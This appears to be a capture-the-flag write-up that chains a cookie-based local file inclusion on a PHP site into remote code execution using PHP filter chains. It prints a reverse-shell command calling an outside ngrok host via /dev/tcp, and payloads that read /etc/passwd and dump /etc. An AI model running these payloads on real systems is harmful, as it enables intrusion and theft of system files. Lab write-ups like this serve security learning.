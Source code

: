 Challenge Name: Hack if u can

Challenge Description: Find the RCE to get access to the system

The goal is to get an RCE.

First thing, when you open the website, website there is nothing useful. I try to do fuzzing; I find a robots.txt and nothing useful, and I search for an for an exploit for the server Vesrion nginx 1.25.2, and the same thing is not useful.

![image](https://github.com/user-attachments/assets/ba835251-3fa5-4720-8e3e-c2b8cec71630)

After digging in the website i found two usefull dir robots.txt and policy.php when you access the robots.txt this is the content

Robots.txt:

![image](https://github.com/user-attachments/assets/159d97e2-b71f-4a2e-831a-8727fa3b3631)

Now we know where is the flag file

Then when try to access the policy.php there is a cookie called read have an md5hash end with .txt i try to decrypt it i and i got this

![image](https://github.com/user-attachments/assets/0e97a5c7-846f-4335-980c-2fe2332fa201)

read:b204217b677944e7c8d2a12c670b5467.txt

After decrypting it

read:myfile.txt

I noticed what happens if i put the flag file directly in the cookie,and this is the output:

![image](https://github.com/user-attachments/assets/77c84997-6bb6-47bb-ace4-0c60f36a60d2)

Then i try to read the /etc/password and it's work then i try to do php wrapper and it work

![image](https://github.com/user-attachments/assets/aa78ef2d-9814-4e6b-bdc0-cd3425e7361e)

Now let's make lfi2rce i use this tool php_filter_chain_generator for this step

First i try to read the phpinfo(); and it's work 
![image](https://github.com/user-attachments/assets/6d681caa-86cf-401a-a502-863bf5f878c5)

Then i try to make a rev shell like this ```python php_filter_chain_generator.py --chain '& /dev/tcp/6.tcp.eu.ngrok.io/14246 0>&1") ?>'```

but when i try it did not work becuse it's vary large payload

i try to run command directly like that php_filter_chain_generator.py --chain '<?php system("uname -a");?>' 

![image](https://github.com/user-attachments/assets/9e8f4006-f965-40df-95f0-503971e9661e)

Then i try to read all the file of the /etc/ dir i try this payload python php_filter_chain_generator.py --chain '<?php system("cat /etc/*");?>'

![Screenshot 2024-09-25 155901](https://github.com/user-attachments/assets/6c29cfce-050b-4e53-bb4b-aefdbc4fc308)

Finaly i read the flag file

